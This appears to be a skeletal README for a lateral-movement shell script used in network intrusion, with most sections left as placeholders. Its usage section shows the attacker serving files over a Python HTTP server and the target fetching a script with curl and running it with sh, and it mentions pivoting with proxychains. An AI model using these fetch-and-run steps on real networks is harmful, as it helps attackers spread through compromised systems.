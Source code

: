 # Lateral Movement Phase

Definition...  

Available parts:
- 


## Usage

From github:
```sh
curl -LJO 
sh 
```
Local network:
```sh
# Host
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target
curl -LJO <Host>:8000/
sh 
```

### Parameters

```sh
sh lateral-movement.sh -h


```

## Results

Results saved to ....

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Pivoting with Proxychains

Todo...

Pivoting: 
proxychains

and so on...



